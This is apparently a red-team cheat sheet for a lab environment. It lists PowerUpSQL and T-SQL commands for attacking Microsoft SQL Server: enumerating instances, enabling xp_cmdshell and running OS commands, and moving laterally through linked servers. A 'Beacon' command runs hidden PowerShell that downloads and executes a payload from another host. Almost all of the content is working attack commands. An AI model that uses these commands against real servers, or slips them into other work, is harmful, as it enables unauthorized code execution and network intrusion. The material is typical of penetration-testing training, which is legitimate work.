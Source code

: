 ## Enumeration
https://github.com/NetSPI/PowerUpSQL

### Get SQL Servers
```powershell
Get-SQLInstanceDomain
```

### Test Connection
```powershell
Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
```

### Get Information
```powershell
Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
```

### Run Query
```powershell
Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
```

## Command Execution

### Run Commands Automaticaly
```powershell
Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

### Manualy
```powershell
EXEC xp_cmdshell 'whoami';
```

Check xp_cmdshell State
```powershell
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
```

Enable
```powershell
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

### Beacon
```powershell
EXEC xp_cmdshell 'powershell -w hidden -c "iex (new-object net.webclient).downloadstring("""http://wkstn-2:8080/b""")"';
```

## Lateral Movement

### Discover Links
```powershell
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
```

### Another Server Query
```powershell
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

### xp_cmdshell
```powershell
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

### Automaticaly
```powershell
Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
```
